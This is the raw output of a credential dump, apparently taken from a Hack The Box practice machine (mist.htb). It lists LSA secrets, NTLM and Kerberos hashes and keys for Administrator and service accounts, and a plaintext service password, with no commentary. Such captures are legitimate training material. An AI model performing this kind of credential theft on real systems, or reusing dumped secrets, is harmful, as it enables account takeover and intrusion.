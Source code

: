 # Cred dump

## lsa secrets

[*] Dumping LSA secrets
Domain : MS01
SysKey : e3a142f26a6e42446aa8a55e39cbcd86

Local name : MS01 ( S-1-5-21-1075431363-3458046882-2723919965 )
Domain name : MIST ( S-1-5-21-1045809509-3006658589-2426055941 )
Domain FQDN : mist.htb

Policy subsystem is : 1.18
LSA Key(s) : 1, default {142ffa61-df48-50eb-09c3-357e042faaea}
  [00] {142ffa61-df48-50eb-09c3-357e042faaea} a0ea700d0d30222a0656634ebb1b1230e586845e25581305360e417e53a97630

Secret  : $MACHINE.ACC
cur/hex : 05 02 6d 28 f0 21 16 24 b8 0e 3d 04 c5 99 ea 35 46 67 70 3a 1e c8 5f 78 c0 f3 84 61 19 76 26 bc 45 59 df d5 18 59 54 98 47 99 ec 09 04 8e 8e 6a 91 8c 5f b4 23 81 4d 50 fe dc 3c 62 63 14 50 d8 43 9b a0 72 99 4b f4 aa d5 31 1f a4 05 5f 41 0e 0e e6 b5 b8 49 b3 3e 62 ff 0f 7a f0 3b 1a 77 87 28 7b b6 b5 98 70 96 a3 d3 24 0b 05 f2 24 1d 61 44 90 0c 00 71 b4 84 19 bd e5 cb 38 ab 24 e8 97 7f 64 ce b0 9d 0e fe ea 7d e1 50 1c 04 15 04 fb 47 42 bd 40 40 3a e3 05 89 ca 35 4c 71 68 46 07 c8 a3 6f 86 a6 f1 df 40 ab b3 e4 5f 42 65 fa 1a ef 23 39 f8 5f 40 e3 2b 74 a3 a1 ec 17 3c 1d fc e0 52 89 77 aa fe ac 71 ba 97 e9 58 26 e3 d3 1f 0a eb 3d 67 a0 4e fc d4 74 0c c3 8a 94 c6 4f 58 5c 5f 00 47 c7 28 f6 06 11 74 f7 d5 e6 21 5e b9 
    NTLM:4a74fc05400345d580cf58aec3e6d833
    SHA1:780a5da0be7e173c4b63686435e6f0cd8b696e02
old/text: rhhMn9ijj3TDR2ggeuK>&-f@szU3^_V:a6XWFf @aR/](G[1ChEZy9azLaD#j.F;A;2xC.LkY"f wlN,#\//>r/X2`?!G%"YCogM&B@(EjI7OY0?dGYb_t@)
    NTLM:05647d62365b89dda38abeadc756308c
    SHA1:bc8e035172f40052b8d7c1ec9b609d4e83008ae9

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 e4 64 e1 84 78 cf 4a 7d 80 9d fc 9f 5d 6b 52 30 ce 98 77 9b 57 9d 7a 06 79 89 11 d3 22 fe dc 96 03 13 e9 3a 71 b4 3c c2 
    full: e464e18478cf4a7d809dfc9f5d6b5230ce98779b579d7a06798911d322fedc960313e93a71b43cc2
    m/u : e464e18478cf4a7d809dfc9f5d6b5230ce98779b / 579d7a06798911d322fedc960313e93a71b43cc2
old/hex : 01 00 00 00 ad 8d 9c e8 ef 36 ca 60 5e 37 e8 a2 03 84 ea b9 64 ff ff e9 17 0e 0e 41 85 d6 e4 93 62 a4 98 92 8c 6b 03 e3 27 7c 5e 10 
    full: ad8d9ce8ef36ca605e37e8a20384eab964ffffe9170e0e4185d6e49362a498928c6b03e3277c5e10
    m/u : ad8d9ce8ef36ca605e37e8a20384eab964ffffe9 / 170e0e4185d6e49362a498928c6b03e3277c5e10

Secret  : NL$KM
cur/hex : 57 c8 f7 cd 24 f2 55 eb 19 1d 07 c2 15 84 21 b0 90 7c 79 3c d5 be cf ac ef 40 4f 8e 2a 76 3f 00 04 87 df 47 cf d8 b7 af 6d 5e ee 9f 16 5e 75 f3 80 24 aa 24 b0 7d 3c 29 4f ea 4e 4a fb 26 4e 62 
old/hex : 57 c8 f7 cd 24 f2 55 eb 19 1d 07 c2 15 84 21 b0 90 7c 79 3c d5 be cf ac ef 40 4f 8e 2a 76 3f 00 04 87 df 47 cf d8 b7 af 6d 5e ee 9f 16 5e 75 f3 80 24 aa 24 b0 7d 3c 29 4f ea 4e 4a fb 26 4e 62 

Secret  : _SC_ApacheHTTPServer / service 'ApacheHTTPServer' with username : .\svc_web
cur/text: MostSavagePasswordEver123
old/text: MostSavagePasswordEver123#

## cred_all

msv credentials
===============

Username           Domain  NTLM                              SHA1                                   DPAPI
--------           ------  ----                              ----                                   -----
Brandon.Keywarp    MIST    db03d6a77a2205bc1d07082740626cc9  5e74a9a541ff32af5e352c60303d66245e9e3  6cf221008e57ff6a822d261da5f7260a
                                                             8ad
MS01$              MIST    4a74fc05400345d580cf58aec3e6d833  780a5da0be7e173c4b63686435e6f0cd8b696  780a5da0be7e173c4b63686435e6f0cd
                                                             e02
op_Sharon.Mullard  MIST    d25863965a29b64af7959c3d19588dd7  6236156a1a8ad54e76b93ffdcf6607a78bca9  607ff4f13ea7cb77603b094264b6aa75
                                                             15e
svc_web            MS01    76a99f03b1d2656e04c39b46e16b48c8  c40ec1c015eddf9ae1020d985ba79b2abba42  c40ec1c015eddf9ae1020d985ba79b2a
                                                             27e

wdigest credentials
===================

Username           Domain  Password
--------           ------  --------
(null)             (null)  (null)
Brandon.Keywarp    MIST    (null)
MS01$              MIST    (null)
op_Sharon.Mullard  MIST    (null)
svc_web            MS01    (null)

kerberos credentials
====================

Username           Domain    Password
--------           ------    --------
(null)             (null)    (null)
Brandon.Keywarp    MIST.HTB  (null)
MS01$              mist.htb  05 02 6d 28 f0 21 16 24 b8 0e 3d 04 c5 99 ea 35 46 67 70 3a 1e c8 5f 78 c0 f3 84 61 19 76 26 bc 45 59 d
                             f d5 18 59 54 98 47 99 ec 09 04 8e 8e 6a 91 8c 5f b4 23 81 4d 50 fe dc 3c 62 63 14 50 d8 43 9b a0 72 99
                              4b f4 aa d5 31 1f a4 05 5f 41 0e 0e e6 b5 b8 49 b3 3e 62 ff 0f 7a f0 3b 1a 77 87 28 7b b6 b5 98 70 96
                             a3 d3 24 0b 05 f2 24 1d 61 44 90 0c 00 71 b4 84 19 bd e5 cb 38 ab 24 e8 97 7f 64 ce b0 9d 0e fe ea 7d e
                             1 50 1c 04 15 04 fb 47 42 bd 40 40 3a e3 05 89 ca 35 4c 71 68 46 07 c8 a3 6f 86 a6 f1 df 40 ab b3 e4 5f
                              42 65 fa 1a ef 23 39 f8 5f 40 e3 2b 74 a3 a1 ec 17 3c 1d fc e0 52 89 77 aa fe ac 71 ba 97 e9 58 26 e3
                             d3 1f 0a eb 3d 67 a0 4e fc d4 74 0c c3 8a 94 c6 4f 58 5c 5f 00 47 c7 28 f6 06 11 74 f7 d5 e6 21 5e b9
ms01$              MIST.HTB  (null)
op_Sharon.Mullard  MIST.HTB  (null)
svc_web            MS01      (null)

## lsa_dump_sam
[+] Running as SYSTEM
[*] Dumping SAM
Domain : MS01
SysKey : e3a142f26a6e42446aa8a55e39cbcd86
Local SID : S-1-5-21-1075431363-3458046882-2723919965

SAMKey : 07fbe201826a86b90049af0e030fa466

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 711e6a685af1c31c4029c3c7681dd97b
    lm  - 0: 9d5b76179fbec3f12293165b7f507633
    lm  - 1: 0c63a25c7cb94ee78f9f9fbc1034e283
    lm  - 2: 9716a4fc5ee78c3e03398bc8b6d140f2
    ntlm- 0: 711e6a685af1c31c4029c3c7681dd97b
    ntlm- 1: 63245e61ad75fbc0b9360b4e380d83d8
    ntlm- 2: 94118c7d103604b14075be514d3e79c3
    ntlm- 3: 63245e61ad75fbc0b9360b4e380d83d8

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : e63b9192b33b4135df0b75aedc87680e

* Primary:Kerberos-Newer-Keys *
    Default Salt : MS01.MIST.HTBAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : d8636eaab956bf4610d3240a3f53df569c5616ac69ba1ffaabca502c746b9b2e
      aes128_hmac       (4096) : 83a4ad17694b48447086ad29f46ed9ae
      des_cbc_md5       (4096) : f7d97632f78c75fb
    OldCredentials
      aes256_hmac       (4096) : aac604788e3360cae14c0afed0141e309a0ef4057cf7d81c94c5e0b7f04d6a97
      aes128_hmac       (4096) : 66b0dc72150e1b001d3d4bc84c464033
      des_cbc_md5       (4096) : 462937b5c423d07a
    OlderCredentials
      aes256_hmac       (4096) : 546287662d2405c882bdffee2944024b9fe03abd5dbe53567fd137f6f15bba90
      aes128_hmac       (4096) : 8a86c58bc4ed1d3d52da55b2efeed004
      des_cbc_md5       (4096) : 6eb594b09eb0f7b0

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : MS01.MIST.HTBAdministrator
    Credentials
      des_cbc_md5       : f7d97632f78c75fb
    OldCredentials
      des_cbc_md5       : 462937b5c423d07a


RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
  Hash NTLM: 90f903787dd064cc1973c3aa4ca4a7c1

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : dcbb37020885f127e7257d1f32e04bae

* Primary:Kerberos-Newer-Keys *
    Default Salt : WDAGUtilityAccount
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 39f456b50f44555be8f33753feb26887a31c204f1efb1735cb8a21dd21a51264
      aes128_hmac       (4096) : e82ae6a811c860910c37c658eb87cabf
      des_cbc_md5       (4096) : 3dd94f7abf3e10cb

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WDAGUtilityAccount
    Credentials
      des_cbc_md5       : 3dd94f7abf3e10cb


RID  : 000003e8 (1000)
User : svc_web
  Hash NTLM: 76a99f03b1d2656e04c39b46e16b48c8
    lm  - 0: d9378de5f293a3a449c07f9da4e3cd1d
    lm  - 1: 44ad607e04781a4f3749c722ac0a8b03
    ntlm- 0: 76a99f03b1d2656e04c39b46e16b48c8
    ntlm- 1: 76a99f03b1d2656e04c39b46e16b48c8

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : a5f7a533841d8bd7b13b13a8141a2a54

* Primary:Kerberos-Newer-Keys *
    Default Salt : MS01.MIST.HTBsvc_web
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 8c97f2d234d9ae5c004142b7bb6d5e6871e25bcb965ad6207b41842a5df7a010
      aes128_hmac       (4096) : 58d1072dcc284dd16cdad4dcccd0e7e3
      des_cbc_md5       (4096) : 9b899d022920d3f4
    OldCredentials
      aes256_hmac       (4096) : 8c97f2d234d9ae5c004142b7bb6d5e6871e25bcb965ad6207b41842a5df7a010
      aes128_hmac       (4096) : 58d1072dcc284dd16cdad4dcccd0e7e3
      des_cbc_md5       (4096) : 9b899d022920d3f4

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : MS01.MIST.HTBsvc_web
    Credentials
      des_cbc_md5       : 9b899d022920d3f4
    OldCredentials
      des_cbc_md5       : 9b899d022920d3f4
